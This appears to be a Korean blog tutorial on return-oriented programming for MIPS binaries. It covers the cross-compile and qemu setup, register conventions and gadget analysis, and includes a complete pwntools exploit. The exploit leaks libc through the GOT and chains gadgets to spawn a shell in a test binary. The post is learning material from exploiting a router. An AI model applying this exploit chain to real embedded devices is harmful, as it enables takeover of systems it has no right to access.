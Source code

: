 ```yaml
---
title: Mips Simple ROP
date: 2019-03-26
---
```


이번에 공유기 익스 하면서 이 녀석이 mips였기 때문에.. 살짝 정리해 둔다.

일단 예전에 arm 문제가 나오거나 하면 어찌할 줄 몰랐는데 이젠 잘 될듯 하다

크로스 컴파일 환경

> apt-get install gcc-multilib-mips-linux-gnu

기본은 이거고 추가로 많으니 자기가 원하는 것  설치하면 된다.

> mips-linux-gnu-gcc -o file file.c
>
> qemu-mips

이 두가지로 컴파일과 실행을 시켜볼 수 있다. qemu 같은 경우 -L /lib/mips-linux-gnu로 라이브러리 지정해 주면 되고 -g로 gdb로 어태치 시킬 수 있다.

```c
.text:004007C0                 addiu   $sp, -0x88
.text:004007C4                 sw      $ra, 0x88+var_4($sp)
.text:004007C8                 sw      $fp, 0x88+var_8($sp)
.text:004007CC                 move    $fp, $sp
.text:004007D0                 li      $gp, 0x419010
.text:004007D8                 sw      $gp, 0x88+var_78($sp)
.text:004007DC                 addiu   $v0, $fp, 0x88+var_70
.text:004007E0                 move    $a0, $v0         # s
.text:004007E4                 la      $v0, gets
.text:004007E8                 move    $t9, $v0
.text:004007EC                 jalr    $t9 ; gets
.text:004007F0                 nop
.text:004007F4                 lw      $gp, 0x88+var_78($fp)
.text:004007F8                 addiu   $v0, $fp, 0x88+var_70
.text:004007FC                 move    $a0, $v0         # s
.text:00400800                 la      $v0, puts
.text:00400804                 move    $t9, $v0
.text:00400808                 jalr    $t9 ; puts
.text:0040080C                 nop
.text:00400810                 lw      $gp, 0x88+var_78($fp)
.text:00400814                 move    $v0, $zero
.text:00400818                 move    $sp, $fp
.text:0040081C                 lw      $ra, 0x88+var_4($sp)
.text:00400820                 lw      $fp, 0x88+var_8($sp)
.text:00400824                 addiu   $sp, 0x88
.text:00400828                 jr      $ra
.text:0040082C                 nop
```

간단한 바이너리로 간단한 rop를 해봤다 그냥 gets, puts 인데 이 녀석은 어셈으로만 봐야하기 때문에 분석하기가 좀 힘들다..

인텔에서 자주보던 push ebp 요런게 없고 바로 sp에서 공간을 비운다. 그리고 0x88_var_4 이런식으로 나오는데 그냥 0x88 - 4 한 값 (왜 저렇게 나오는지..)

```c
addiu $a,$b $a 를 $b(+-) 만큼 더함
sw $a,$sp(+-) $a의 값을 $sp+- 에 save word(word로 저장)
lw $a,$b $b안의 값을 $a에 넣음 load word
li constant 를 load
la string을 load
move $a,$b 는 $b를 $a로 이동
jr intel의 jmp와 같음
jalr $t9 <-- 이녀석이 제일 중요한데 함수 호출이다 가젯을 쓸 때 ra는 웬만하면 건드리기 힘들기 때문에 이녀석을 사용해서 원하는 함수를 호출해야함
```

복잡한 바이너리는 보기 힘들긴 하지만 하나하나 찾아가면서 보면 엄~청 어렵진 않다. 

```c
레지스터
v0~v1 : 함수의 리턴 값이라고 하는 것 같음..(자세히 보지 않았다 ㅠ)
a0~a3 : 함수의 인자로 사용되는 녀석들
s0~s7 : 뭔가 계속 저장되는 레지스터인데 이 레지스터에서 왔다갔다를 많이 함 함수가 호출되는 도중에 불변 하기 때문에 함수가 끝나고도 어떻게든 가젯을 엮어볼 수 있다
t0~t8 : 약간 뭔가.. 그냥 임시버퍼 같은 느낌 
t9 : 함수 호출전에 t9에 함수 주소가 들어가게 되면서 jalr t9로 함수 호출
gp : 글로벌 포인터라고 하는데 string 혹은 함수들을 여길 기반으로 찾는다
sp : 스택 포인터
fp : 프레임 포인
ra : 리턴 주소
zero : 제로 레지스터인데 무조건 0이다. 뭔가를 0으로 만들때 항상 얘로 만든다
```

레지스터를 너무 많이 써서 기분이 좋지 않다. mips가 좋지 못한건 ret란게 없단점.. rop할 때 체이닝을 하기가 생각보다 어렵다.. 바이너리자체에 쓸만한 코드가 없다면 많이 제한적이다. 

>gdb.execute('set arch mips')
>gdb.execute('set endian big')
>gdb.execute('gef-remote -q localhost:8888')
>gdb.execute('symbol-file test')

gdb에선 대략 저런 옵션으로 세팅하고 실행하면 된다(gef 기준)

```python
from pwn import *
import sys

#if (sys.argv[1]):
#
t = process(['qemu-mips','-L','/usr/mips-linux-gnu/','./test'])
#else :
#t = process(['qemu-mips','-L','/usr/mips-linux-gnu/','-g','8888','./test'])

puts_got = 0x41105c
setting_s = 0x004008b0
call = 0x00400890
setting_a0 = 0x004008A4

def b(data):
	return p32(data,endian='big')

def unp(data):
	return u32(data,endian='big')

t.sendline("a"*108 + b(setting_s) + "a"*(52-24) + b(puts_got-4) + b(puts_got-1) + b(puts_got)*4 + b(setting_a0) + "a"*52 + b(0x004007c0)) 

t.recvuntil("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n")

puts = unp(t.recv(4).ljust(4,'\x00'))
print hex(puts)

libc = puts - 0x66570
system = libc + 0x3ebc4
binsh = libc + 0x00153D44
libc_gadget = libc + 0x00136F14
set_s = libc+0x00136EE4

sleep(1)

t.sendline("a"*(108) + b(set_s) + "a"*(0x48-40) + b(puts_got+0x8) + b(binsh) + b(puts_got) + b(system)*3 + b(puts_got+0x8)*3 + b(libc_gadget))

t.interactive()
```

익스 코드 

bin endian이라서 기존과 반대로 넣어줘야한다.. libc 릭이 된다면 libc안에 수 많은 가젯을 쓸 수 있다.

일단 맨처음 ra는 0x4008b0

>.text:004008B0                 lw      $ra, 0x38+var_4($sp)
>.text:004008B4                 lw      $s5, 0x38+var_8($sp)
>.text:004008B8                 lw      $s4, 0x38+var_C($sp)
>.text:004008BC                 lw      $s3, 0x38+var_10($sp)
>.text:004008C0                 lw      $s2, 0x38+var_14($sp)
>.text:004008C4                 lw      $s1, 0x38+var_18($sp)
>.text:004008C8                 lw      $s0, 0x38+var_1C($sp)
>.text:004008CC                 jr      $ra                                                                                                          .text:004008D0                 addiu   $sp, 0x38

여기서 s 레지스터들에 값을 세팅해준다 오버플로가 나면 순서대로 s~ ra까지 덮을 수 있게 된다.

그리고 다음 ra는

>.text:004008A4                 move    $a0, $s3
>.text:004008A8                 bne     $s1, $s2, loc_400890
>.text:004008AC                 addiu   $s0, 4
>.text:004008B0
>.text:004008B0 loc_4008B0:                              # CODE XREF: __libc_csu_init+58↑j
>.text:004008B0                 lw      $ra, 0x38+var_4($sp)
>.text:004008B4                 lw      $s5, 0x38+var_8($sp)
>.text:004008B8                 lw      $s4, 0x38+var_C($sp)
>.text:004008BC                 lw      $s3, 0x38+var_10($sp)
>.text:004008C0                 lw      $s2, 0x38+var_14($sp)
>.text:004008C4                 lw      $s1, 0x38+var_18($sp)
>.text:004008C8                 lw      $s0, 0x38+var_1C($sp)
>.text:004008CC                 jr      $ra
>.text:004008D0                 addiu   $sp, 0x38

이렇게 된다 a0에 원하는 값을 넣어 주고 loc_400890을 뛰면

>.text:00400890                 lw      $t9, 0($s0)
>.text:00400894                 addiu   $s1, 1
>.text:00400898                 move    $a2, $s5
>.text:0040089C                 move    $a1, $s4
>.text:004008A0                 jalr    $t9

puts_got를 인자로 puts를 호출할 수 있게 된다. 호출 후에 다시 쭉 명령어가 이어지면 ra로 점프하기 때문에 다시 main으로 돌려준다.

libc에서 가젯은 

>.text:00136EE4                 lw      $ra, 0x48+var_4($sp)
>.text:00136EE8                 lw      $fp, 0x48+var_8($sp)
>.text:00136EEC                 lw      $s7, 0x48+var_C($sp)
>.text:00136EF0                 lw      $s6, 0x48+var_10($sp)
>.text:00136EF4                 lw      $s5, 0x48+var_14($sp)
>.text:00136EF8                 lw      $s4, 0x48+var_18($sp)
>.text:00136EFC                 lw      $s3, 0x48+var_1C($sp)
>.text:00136F00                 lw      $s2, 0x48+var_20($sp)
>.text:00136F04                 lw      $s1, 0x48+var_24($sp)
>.text:00136F08                 lw      $s0, 0x48+var_28($sp)
>.text:00136F0C                 jr      $ra
>.text:00136F10                 addiu   $sp, 0x48
>.text:00136F14  # ---------------------------------------------------------------------------
>.text:00136F14
>.text:00136F14 loc_136F14:                              # CODE XREF: sub_136CA0+88↑j
>.text:00136F14                                          # sub_136CA0+C0↑j ...
>.text:00136F14                 lw      $a1, 0($s0)
>.text:00136F18                 move    $a0, $s1
>.text:00136F1C                 lw      $a2, 0($s7)
>.text:00136F20                 move    $t9, $s3
>.text:00136F24                 jalr    $t9

먼저 s 레지스터와 ra에 값 세팅 해주고 ra는 00136F14로 설정해서 쉘을 딸 수 있다.. 아니면 addiu와 move를 잘 이용하면 쉘코드도 실행시킬 수 있다(임베디드 리눅스에서 nx와 canary가 설정되있지 않은 바이너리는 상당히 많다고 한다.)

```c
bskim@bsbuntu:~/mips$ python test.py
[+] Starting local process '/usr/bin/qemu-mips': pid 27358
0x766a0570
[*] Switching to interactive mode
vi�@
$  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaavw\x0e�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ id
uid=1000(bskim)
```

인텔에 비하면 복잡..